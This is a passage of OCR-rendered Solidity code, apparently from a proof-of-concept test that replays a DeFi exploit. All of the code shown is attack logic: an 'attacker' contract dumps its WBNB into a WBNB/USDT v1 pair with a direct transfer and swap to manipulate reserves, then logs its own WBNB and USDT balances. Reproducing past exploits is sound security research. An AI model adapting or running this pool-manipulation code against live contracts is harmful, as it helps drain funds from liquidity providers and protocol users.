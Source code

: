 │             address(WBNBUSDTv2),                                                                                                                                                                                                                      │
│             attackerLPBalance                                                                                                                                                                                                                         │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         emit log_string("Dumping all WBNB for USDT on WBNB+USDT v1 pool..");                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         // Manipulate WBNB - USDT pair                                                                                                                                                                                                                │
│         (uint256 reserve0, uint256 reserve1, ) = WBNBUSDTv1.getReserves();                                                                                                                                                                            │
│         uint256 amountIn = wbnbAmount;                                                                                                                                                                                                                │
│         uint256 amountOut = router.getAmountOut(amountIn, reserve1, reserve0);                                                                                                                                                                        │
│         IERC20(WBNB).transfer(address(WBNBUSDTv1), amountIn);                                                                                                                                                                                         │
│         WBNBUSDTv1.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, WBNB balance of attacker:",                                                                                                                                                                                      │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, USDT balance of attacker:",                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │